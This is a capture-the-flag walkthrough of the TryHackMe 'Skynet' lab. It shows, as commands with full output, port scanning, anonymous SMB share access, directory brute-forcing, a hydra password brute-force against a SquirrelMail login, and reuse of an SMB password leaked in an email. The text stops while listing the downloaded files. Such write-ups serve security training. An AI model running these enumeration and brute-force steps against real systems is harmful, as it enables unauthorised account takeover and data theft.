




# Skynet

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Easy
OS: Linux
Subscription type: Premium
Description: A vulnerable Terminator themed Linux machine.
```

Room link: [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

## Solution

### What is Miles password for his emails?

Hint: Enumerate Samba

#### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ export TARGET_IP=10.10.84.42       

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ sudo nmap -sV -sC -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 15:45 CEST
Nmap scan report for 10.10.84.42
Host is up (0.044s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: PIPELINING AUTH-RESP-CODE SASL CAPA TOP UIDL RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: post-login capabilities ENABLE OK have IMAP4rev1 more Pre-login listed IDLE LITERAL+ LOGIN-REFERRALS LOGINDISABLEDA0001 SASL-IR ID
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-09-06T13:45:50
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2025-09-06T08:45:50-05:00
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.20 seconds
```

We have five main services running and available:

- OpenSSH 7.2p2 running on port 22
- Apache httpd 2.4.18 running on port 80
- Dovecot pop3d running on port 110
- Samba smbd 4.3.11 running on ports 139 and 445
- Dovecot imapd running on port 143

#### Enumerate the Samba (SMB) service

We continue our discovery with the Samba/SMB service

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ smbmap -H $TARGET_IP -u null -p null 

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.10.84.42:445 Name: 10.10.84.42               Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
[*] Closed 1 connections     

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ smbmap -H $TARGET_IP -u null -p null -r anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.10.84.42:445 Name: 10.10.84.42               Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        ./anonymous
        dr--r--r--                0 Thu Nov 26 17:04:00 2020    .
        dr--r--r--                0 Tue Sep 17 09:20:17 2019    ..
        fr--r--r--              163 Wed Sep 18 05:04:59 2019    attention.txt
        dr--r--r--                0 Wed Sep 18 06:42:16 2019    logs
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
[*] Closed 1 connections  
```

We have a read-only share `anonymous` with an `attention.txt` file and an additional `logs` directory.

Let's download the files with `smbclient`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$  smbclient -N //$TARGET_IP/anonymous 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 17:04:00 2020
  ..                                  D        0  Tue Sep 17 09:20:17 2019
  attention.txt                       N      163  Wed Sep 18 05:04:59 2019
  logs                                D        0  Wed Sep 18 06:42:16 2019

                9204224 blocks of size 1024. 5831508 blocks available
smb: \> get attention.txt 
getting file \attention.txt of size 163 as attention.txt (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
smb: \> cd logs
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 06:42:16 2019
  ..                                  D        0  Thu Nov 26 17:04:00 2020
  log2.txt                            N        0  Wed Sep 18 06:42:13 2019
  log1.txt                            N      471  Wed Sep 18 06:41:59 2019
  log3.txt                            N        0  Wed Sep 18 06:42:16 2019

                9204224 blocks of size 1024. 5831508 blocks available
smb: \logs\> get log1.txt 
getting file \logs\log1.txt of size 471 as log1.txt (2.4 KiloBytes/sec) (average 1.6 KiloBytes/sec)
smb: \logs\> quit
```

and check their contents

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ cat log1.txt      
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

Could this be a list of possible passwords to try?

#### Enumerate the web site

We also check the web site, starting of with manually browsing to it



We search for additional files and directories with `gobuster`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.84.42
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 523]
/.php                 (Status: 403) [Size: 276]
/admin                (Status: 403) [Size: 276]
/css                  (Status: 403) [Size: 276]
/js                   (Status: 403) [Size: 276]
/config               (Status: 403) [Size: 276]
/ai                   (Status: 403) [Size: 276]
/squirrelmail         (Status: 200) [Size: 2912]
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Accessing the `/squirrelmail` directory show a login page



#### Bruteforce the SquirrelMail

We do a test login and capture the request in Burp

```text
POST /squirrelmail/src/redirect.php HTTP/1.1
Host: 10.10.84.42
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: http://10.10.84.42
Connection: keep-alive
Referer: http://10.10.84.42/squirrelmail/src/login.php
Cookie: SQMSESSID=lbrbv34qkphtlnv0ikh8anagj6
Upgrade-Insecure-Requests: 1
Priority: u=0, i

login_username=miles&secretkey=test&js_autodetect_results=1&just_logged_in=1
```

The resulting error message is: Unknown user or password incorrect.

Since the username isn't 100% clear we prepare a short list of likely usernames

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ vi users.txt          

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ cat users.txt          
miles
dyson
mdyson
m.dyson
milesdyson
miles.dyson
```

Next, we use `hydra` to try to bruteforce the login

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ hydra -L users.txt -P log1.txt $TARGET_IP http-post-form '/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.' -t 1 -T 1
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-06 16:58:52
[DATA] max 1 task per 1 server, overall 1 task, 186 login tries (l:6/p:31), ~186 tries per task
[DATA] attacking http-post-form://10.10.84.42:80/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.
[80][http-post-form] host: 10.10.84.42   login: miles   password: c<REDACTED>r
[80][http-post-form] host: 10.10.84.42   login: dyson   password: c<REDACTED>r
[80][http-post-form] host: 10.10.84.42   login: mdyson   password: c<REDACTED>r
[80][http-post-form] host: 10.10.84.42   login: m.dyson   password: c<REDACTED>r
[80][http-post-form] host: 10.10.84.42   login: milesdyson   password: c<REDACTED>r
[80][http-post-form] host: 10.10.84.42   login: miles.dyson   password: c<REDACTED>r
1 of 1 target successfully completed, 6 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-06 16:58:55
```

Note that the parameters `-t 1` and `-T 1` were added due to a large volume of false positives.  
And the results was still a bit weird! Manually checking the usernames turned out that `milesdyson` was the correct one!

Answer: `c<REDACTED>r`

### What is the hidden directory?

#### Login to SquirrelMail

We can now login to SquirrelMail a view the mails.



The contents of the emails are:

Samba Password reset

```text
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

No subject #1

```text
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```

No subject #2

```text
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
```

Using Binaray Refinery the binary message turns out nonsense as well

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ source ~/Python_venvs/Binary_Refinery/bin/activate

┌──(Binary_Refinery)─(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ emit '01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110 01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111' | pack 2                                                                                    
balls have zero to me to me to me to me to me to me to me to me to
```

But we have a SMB-password (``` )s{A&2Z=F^n_E.B` ```) for Miles.
Let's verify it with `smbmap`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ smbmap -H $TARGET_IP -u milesdyson -p ')s{A&2Z=F^n_E.B`'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.10.84.42:445 Name: 10.10.84.42               Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              READ ONLY       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
[*] Closed 1 connections   
```

Next, we list the files in the `milesdyson` share

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ smbmap -H $TARGET_IP -u milesdyson -p ')s{A&2Z=F^n_E.B`' -r milesdyson

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.10.84.42:445 Name: 10.10.84.42               Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              READ ONLY       Miles Dyson Personal Share
        ./milesdyson
        dr--r--r--                0 Tue Sep 17 11:05:47 2019    .
        dr--r--r--                0 Wed Sep 18 05:51:02 2019    ..
        fr--r--r--          5743095 Tue Sep 17 11:05:14 2019    Improving Deep Neural Networks.pdf
        fr--r--r--         12927230 Tue Sep 17 11:05:14 2019    Natural Language Processing-Building Sequence Models.pdf
        fr--r--r--         19655446 Tue Sep 17 11:05:14 2019    Convolutional Neural Networks-CNN.pdf
        dr--r--r--                0 Tue Sep 17 11:18:40 2019    notes
        fr--r--r--          4304586 Tue Sep 17 11:05:14 2019    Neural Networks and Deep Learning.pdf
        fr--r--r--          3531427 Tue Sep 17 11:05:14 2019    Structuring your Machine Learning Project.pdf
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
[*] Closed 1 connections  
```

As before we download the files with `smbclient`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ smbclient //$TARGET_IP/milesdyson -U milesdyson --password ')s{A&2Z=F^n_E.B`'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 11:05:47 2019
  ..                                  D        0  Wed Sep 18 05:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 11:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 11:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 11:05:14 2019
  notes                               D        0  Tue Sep 17 11:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 11:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 11:05:14 2019

                9204224 blocks of size 1024. 5712536 blocks available
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
getting file \Improving Deep Neural Networks.pdf of size 5743095 as Improving Deep Neural Networks.pdf (3174.0 KiloBytes/sec) (average 3174.0 KiloBytes/sec)
getting file \Natural Language Processing-Building Sequence Models.pdf of size 12927230 as Natural Language Processing-Building Sequence Models.pdf (7080.3 KiloBytes/sec) (average 5136.0 KiloBytes/sec)
getting file \Convolutional Neural Networks-CNN.pdf of size 19655446 as Convolutional Neural Networks-CNN.pdf (4653.3 KiloBytes/sec) (average 4876.5 KiloBytes/sec)
getting file \Neural Networks and Deep Learning.pdf of size 4304586 as Neural Networks and Deep Learning.pdf (3571.5 KiloBytes/sec) (average 4703.0 KiloBytes/sec)
getting file \Structuring your Machine Learning Project.pdf of size 3531427 as Structuring your Machine Learning Project.pdf (2833.7 KiloBytes/sec) (average 4477.1 KiloBytes/sec)
getting file \notes\3.01 Search.md of size 65601 as notes/3.01 Search.md (325.2 KiloBytes/sec) (average 4397.4 KiloBytes/sec)
getting file \notes\4.01 Agent-Based Models.md of size 5683 as notes/4.01 Agent-Based Models.md (30.0 KiloBytes/sec) (average 4320.1 KiloBytes/sec)
getting file \notes\2.08 In Practice.md of size 7949 as notes/2.08 In Practice.md (42.0 KiloBytes/sec) (average 4245.7 KiloBytes/sec)
getting file \notes\0.00 Cover.md of size 3114 as notes/0.00 Cover.md (11.4 KiloBytes/sec) (average 4142.0 KiloBytes/sec)
getting file \notes\1.02 Linear Algebra.md of size 70314 as notes/1.02 Linear Algebra.md (361.4 KiloBytes/sec) (average 4077.3 KiloBytes/sec)
getting file \notes\important.txt of size 117 as notes/important.txt (0.6 KiloBytes/sec) (average 4010.4 KiloBytes/sec)
getting file \notes\6.01 pandas.md of size 9221 as notes/6.01 pandas.md (48.2 KiloBytes/sec) (average 3945.8 KiloBytes/sec)
getting file \notes\3.00 Artificial Intelligence.md of size 33 as notes/3.00 Artificial Intelligence.md (0.2 KiloBytes/sec) (average 3882.1 KiloBytes/sec)
getting file \notes\2.01 Overview.md of size 1165 as notes/2.01 Overview.md (6.1 KiloBytes/sec) (average 3820.6 KiloBytes/sec)
getting file \notes\3.02 Planning.md of size 71657 as notes/3.02 Planning.md (360.7 KiloBytes/sec) (average 3764.8 KiloBytes/sec)
getting file \notes\1.04 Probability.md of size 62712 as notes/1.04 Probability.md (325.8 KiloBytes/sec) (average 3711.9 KiloBytes/sec)
getting file \notes\2.06 Natural Language Processing.md of size 82633 as notes/2.06 Natural Language Processing.md (401.5 KiloBytes/sec) (average 3658.3 KiloBytes/sec)
getting file \notes\2.00 Machine Learning.md of size 26 as notes/2.00 Machine Learning.md (0.1 KiloBytes/sec) (average 3605.8 KiloBytes/sec)
getting file \notes\1.03 Calculus.md of size 40779 as notes/1.03 Calculus.md (214.1 KiloBytes/sec) (average 3556.5 KiloBytes/sec)
getting file \notes\3.03 Reinforcement Learning.md of size 25119 as notes/3.03 Reinforcement Learning.md (131.2 KiloBytes/sec) (average 3507.1 KiloBytes/sec)
getting file \notes\1.08 Probabilistic Graphical Models.md of size 81655 as notes/1.08 Probabilistic Graphical Models.md (426.4 KiloBytes/sec) (average 3463.4 KiloBytes/sec)
getting file \notes\1.06 Bayesian Statistics.md of size 39554 as notes/1.06 Bayesian Statistics.md (215.8 KiloBytes/sec) (average 3419.8 KiloBytes/sec)
getting file \notes\6.00 Appendices.md of size 20 as notes/6.00 Appendices.md (0.1 KiloBytes/sec) (average 3368.6 KiloBytes/sec)
getting file \notes\1.01 Functions.md of size 7627 as notes/1.01 Functions.md (40.5 KiloBytes/sec) (average 3324.0 KiloBytes/sec)
getting file \notes\2.03 Neural Nets.md of size 144726 as notes/2.03 Neural Nets.md (703.2 KiloBytes/sec) (average 3286.2 KiloBytes/sec)
getting file \notes\2.04 Model Selection.md of size 33383 as notes/2.04 Model Selection.md (176.2 KiloBytes/sec) (average 3245.4 KiloBytes/sec)
getting file \notes\2.02 Supervised Learning.md of size 94287 as notes/2.02 Supervised Learning.md (467.4 KiloBytes/sec) (average 3207.2 KiloBytes/sec)
getting file \notes\4.00 Simulation.md of size 20 as notes/4.00 Simulation.md (0.1 KiloBytes/sec) (average 3166.7 KiloBytes/sec)
getting file \notes\3.05 In Practice.md of size 1123 as notes/3.05 In Practice.md (5.9 KiloBytes/sec) (average 3126.9 KiloBytes/sec)
getting file \notes\1.07 Graphs.md of size 5110 as notes/1.07 Graphs.md (27.0 KiloBytes/sec) (average 3088.3 KiloBytes/sec)
getting file \notes\2.07 Unsupervised Learning.md of size 21579 as notes/2.07 Unsupervised Learning.md (110.9 KiloBytes/sec) (average 3050.7 KiloBytes/sec)
getting file \notes\2.05 Bayesian Learning.md of size 39443 as notes/2.05 Bayesian Learning.md (203.8 KiloBytes/sec) (average 3015.4 KiloBytes/sec)
getting file \notes\5.03 Anonymization.md of size 2516 as notes/5.03 Anonymization.md (13.0 KiloBytes/sec) (average 2978.7 KiloBytes/sec)
getting file \notes\5.01 Process.md of size 5788 as notes/5.01 Process.md (31.1 KiloBytes/sec) (average 2944.3 KiloBytes/sec)
getting file \notes\1.09 Optimization.md of size 25823 as notes/1.09 Optimization.md (126.1 KiloBytes/sec) (average 2908.7 KiloBytes/sec)
getting file \notes\1.05 Statistics.md of size 64291 as notes/1.05 Statistics.md (343.1 KiloBytes/sec) (average 2879.3 KiloBytes/sec)
getting file \notes\5.02 Visualization.md of size 940 as notes/5.02 Visualization.md (5.1 KiloBytes/sec) (average 2847.2 KiloBytes/sec)
getting file \notes\5.00 In Practice.md of size 21 as notes/5.00 In Practice.md (0.1 KiloBytes/sec) (average 2814.3 KiloBytes/sec)
getting file \notes\4.02 Nonlinear Dynamics.md of size 44601 as notes/4.02 Nonlinear Dynamics.md (238.0 KiloBytes/sec) (average 2785.8 KiloBytes/sec)
getting file \notes\1.10 Algorithms.md of size 28790 as notes/1.10 Algorithms.md (152.8 KiloBytes/sec) (average 2756.9 KiloBytes/sec)
getting file \notes\3.04 Filtering.md of size 13360 as notes/3.04 Filtering.md (69.0 KiloBytes/sec) (average 2726.9 KiloBytes/sec)
getting file \notes\1.00 Foundations.md of size 22 as notes/1.00 Foundations.md (0.1 KiloBytes/sec) (average 2696.6 KiloBytes/sec)
smb: \> quit
```

We analyse the downloaded files locally

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ cd notes                                                       

┌──(kali㉿kali)-[/mnt/…/Challenges/Easy/Skynet/notes]
└─$ ls -l 
total 1088
-rwxrwxrwx 1 root root   3114 Sep  6 17:26 '0.00 Cover.md'
-rwxrwxrwx 1 root root     22 Sep  6 17:26 '1.00 Foundations.md'
-rwxrwxrwx 1 root root   7627 Sep  6 17:26 '1.01 Functions.md'
